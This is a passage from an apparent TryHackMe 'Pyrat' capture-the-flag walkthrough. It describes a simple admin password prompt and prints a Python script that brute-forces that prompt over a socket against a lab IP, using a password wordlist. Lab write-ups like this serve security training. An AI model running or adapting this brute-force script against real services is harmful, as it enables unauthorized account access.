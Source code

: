 ![](/assets/img/posts/walthrough/tryhackme/2024-10-04-pyrat/get_admin-function.png)

We can see that the authentication is very simple. After we have typed admin and pressed Enter, we are prompted with the string *Password:* where we are supposed to enter the password. If this password is corrected we are greeted with a Welcome message otherwise we are given two other trials. We can attempt a brute force attack manually but this shall take us too much time. Let's automate the process with this Python script.
```python
# Import socket module 
import socket
import sys
         
port = 8000
passfile = sys.argv[1]

with open(passfile) as f:
    for password in f:
        s = socket.socket()
        s.connect(('10.10.153.86', port))
        s.send('admin'.encode())
        
        buffer = s.recv(1024).decode()

        
        s.send(password.encode())
        response = s.recv(1024).decode()
        print(f"[-] Trying {password.strip()} ........")

        if "Welcome" in response:
            print(f"[+] Password: {password}")
            break

        s.close()
```
